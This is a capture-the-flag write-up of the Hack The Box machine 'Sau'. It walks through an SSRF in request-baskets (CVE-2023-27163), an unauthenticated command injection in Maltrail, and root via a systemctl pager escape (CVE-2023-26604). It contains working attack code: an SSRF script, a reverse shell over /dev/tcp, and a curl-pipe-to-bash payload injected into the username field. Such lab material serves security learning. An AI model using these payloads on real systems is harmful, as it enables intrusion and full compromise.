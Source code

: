 ```yaml
---
title: "HTB • Sau"
tags:
  - "Beginner"
  - "Linux"
  - "Easy Difficulty"
  - "Web"
  - "CVE"
  - "SSRF"
  - "Sudo"
excerpt: "Sau is an easy machine on Hack The Box that involves web exploitation, Server Side Request Forgery (SSRF), Common Vulnerabilities and Exposures (CVEs), and Sudo policy exploitation."
categories:
  - "Writeups"
  - "Hack the Box Machines"
img_path: "/assets/img/post/htb-machines-sau/"
---
```



Sau is an easy Linux-based [**Hack the Box**](https://app.hackthebox.com/machines/Sau) machine created by [**sau123**](https://app.hackthebox.com/users/201596) that involves web exploitation, Server Side Request Forgery (SSRF), Common Vulnerabilities and Exposures (CVEs), and Sudo policy exploitation. A port scan initially revealed an HTTP server vulnerable to an SSRF bug tracked as **CVE-2023-27163**. The vulnerability was exploited to contact an internal HTTP server running an outdated version of Mailtrail prone to shell command injection, which we used to establish a reverse shell as _puma_. The sudo policy for this user allowed us to exploit **CVE-2023-26604** and gain execution as root.

## Initial Recon

We began by conducting a full TCP port scan using a tuned nmap command. This command quickly and reliably scans for any relevant TCP ports on the target.

~~~zsh
# Run a thorough port scan
nmap "10.10.11.224" -vv -Pn -sT -sV -n -p- -T4 --min-rate=1000 --max-retries=3
~~~
{:file="bryan@redteam ➤ zsh" .nolineno}

The scan reported two open ports and two filtered ports:

| State    | Transport | Port  | Protocol | Product | Version                 |
|:---------|:----------|:------|:---------|:--------|-------------------------|
| Open     | TCP       | 22    | SSH      | OpenSSH | 8.2p1 Ubuntu 4ubuntu0.7 |
| Filtered | TCP       | 80    |          |         |  |
| Filtered | TCP       | 8338  |          |         |  |
| Open     | TCP       | 55555 | HTTP     |         |  |


## Web

We first navigated to <http://10.10.11.224:55555> which prompted a redirection to [/web](http://10.10.11.224:55555/web). On this page we noticed a footer indicating that the site was powered by **[request-baskets](https://github.com/darklynx/request-baskets) version 1.2.1**.

![Website on port 55555](web-baskets.png)
![Website version fingerprint](web-baskets-fingerprint.png)

We searched for CVEs affecting this installation and found an SSRF bug, **CVE-2023-27163**. The [CVEDetails page](https://www.cvedetails.com/cve/CVE-2023-27163/) for this bug provided a vulnerability description along with a link to additional exploitation details.

> request-baskets up to v1.2.1 was discovered to contain a Server-Side Request Forgery (SSRF) via the component /api/baskets/{name}. This vulnerability allows attackers to access network resources and sensitive information via a crafted API request.


### CVE-2023-27163

According to the brief [proof-of-concept](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3) referenced on the dedicated CVEDetails page, a special HTTP POST request should be made to `/api/baskets/*`{:.filepath} to create a new basket and set a forwarding URL. A simple shell script was made to streamline this process.

~~~zsh
#!/usr/bin/env zsh
[ $# -lt 1 ] && echo 'Usage: ./ssrf-curl <URL> [OPTS ...]' && exit 1

echo '{"proxy_response":true,"expand_path":true}' |
  jq -c --arg a "$1" '.forward_url=$a' |
  read json

basket=$(openssl rand -hex 8)
curl -so /dev/null -d "$json" "http://10.10.11.224:55555/api/baskets/${basket}"
curl -s "http://10.10.11.224:55555/${basket}" ${@:2}
~~~
{:file="ssrf.zsh"}


### Mailtrail

We used this script to indirectly access the HTTP server on port 80, since it cannot be accessed directly. A simple HTTP GET request was sent to verify the existence of the HTTP server and collect information.

~~~zsh
# Test SSRF script
zsh ssrf.zsh http://localhost:80 -i | more
~~~
{:file="bryan@redteam ➤ zsh" .nolineno}

~~~http
HTTP/1.1 200 OK
Cache-Control: no-cache
Connection: close
Content-Security-Policy: default-src 'self'; style-src 'self' 'unsafe-inline'; img-src * blob:; script-src 'self' 'unsafe-eval' https://stat.ripe.net; frame-src *; object-src 'none'; block-all-mixed-content;
Content-Type: text/html
Date: Thu, 28 Dec 2023 08:44:05 GMT
Last-Modified: Tue, 31 Jan 2023 18:18:07 GMT
Server: Maltrail/0.53
Transfer-Encoding: chunked

<!DOCTYPE html>
...
~~~
{:file="bryan@redteam ➤ zsh • STDOUT" .nolineno}

A software fingerprint was found in the HTTP "Server" header with the value "Maltrail/0.53". We searched the web for vulnerabilities affecting this version and found an OS command injection flaw [disclosed here](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/).

> ##### Description
> Maltrail <= v0.54 is vulnerable to unauthenticated OS command injection during the login process.**
> ##### Summary
> [...] An attacker can exploit this vulnerability by injecting arbitrary OS commands into the username parameter. The injected commands will be executed with the privileges of the running process. This vulnerability can be exploited remotely without authentication.
> ##### Proof of Concept
> ``curl 'http://hostname:8338/login' --data 'username=;`id > /tmp/bbq`'``

It looks like the installed version can be exploited through the _username_ parameter on the login endpoint at <http://localhost/login>, which can be accessed with the SSRF script. We started a [PwnCat](https://pypi.org/project/pwncat-cs/) listener and proceeded to execute a simple bash reverse shell downloaded over HTTP.

~~~zsh
# Start PwnCat listener
lhost="10.10.14.2" # Change to your assigned VPN IP address
pwncat-cs -l $lhost 8443 # Install: `python3 -m pip install pwncat-cs`

# [In another session] Serve reverse shell over HTTP
lhost="10.10.14.2" # Change to your assigned VPN IP address
mkdir ./http-share && echo "bash -i >& /dev/tcp/${lhost}/8443 <&1" > http-share/index.html
http-server ./http-share -p 8080 -a $lhost # Install: `npm install -g http-server`

# [In another session] Trigger command execution
lhost="10.10.14.2" # Change to your assigned VPN IP address
zsh ssrf.zsh http://localhost:80/login -i -d "username=\`curl ${lhost}:8080|bash\`"
~~~
{:file="bryan@redteam ➤ zsh" .nolineno}


## Privilege Escalation

With execution as the user _puma_, We found a custom sudo policy that allows us to execute a particular command as any user without the password for _puma_.

~~~bash
# Display sudo policy
sudo -l
~~~
{:file="bryan@redteam ➤ pwncat-cs ➤ puma@sau ➤ bash" .nolineno}

~~~text
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
~~~
{:file="bryan@redteam ➤ pwncat-cs ➤ puma@sau ➤ bash • STDOUT" .nolineno}

### CVE-2023-26604

The command we can run in a privileged context is `/usr/bin/systemctl status trail.service`. After searching the web for known vulnerabilities in systemd/systemctl, a fairly recent privilege escalation CVE tracked as [CVE-2023-26604](https://www.cvedetails.com/cve/CVE-2023-26604/) was found.

> systemd before 247 does not adequately block local privilege escalation for some Sudo configurations, e.g., plausible sudoers files in which the "systemctl status" command may be executed. Specifically, systemd does not set LESSSECURE to 1, and thus other programs may be launched from the less program. This presents a substantial security risk when running systemctl from Sudo, because less executes as root when the terminal size is too small to show the complete systemctl output.

We checked the systemd version and noticed that the vulnerable version **systemd 245** was installed.

~~~bash
# Check if systemd version is vulnerable
/usr/bin/systemctl --version
~~~
{:file="bryan@redteam ➤ pwncat-cs ➤ puma@sau ➤ bash" .nolineno}

~~~text
systemd 245 (245.4-4ubuntu3.22)
+PAM +AUDIT +SELINUX +IMA +APPARMOR +SMACK +SYSVINIT +UTMP +LIBCRYPTSETUP +GCRYPT +GNUTLS +ACL +XZ +LZ4 +SECCOMP +BLKID +ELFUTILS +KMOD +IDN2 -IDN +PCRE2 default-hierarchy=hybrid
~~~
{:file="bryan@redteam ➤ pwncat-cs ➤ puma@sau ➤ bash • STDOUT" .nolineno}


#### Exploitation

To exploit CVE-2023-26604, the terminal height was lowered as described in the CVE description, and the allowed sudo command was executed. From the pager we simply entered `!sh` to spawn a root shell.

~~~bash
# execute systemctl with lower resolution to spawn pager
stty rows 1 && sudo systemctl status trail.service
~~~
{:file="bryan@redteam ➤ pwncat-cs ➤ puma@sau ➤ bash" .nolineno}

![Privilege escalation demo](privesc.gif)
_Exploitation of CVE-2023-26604_
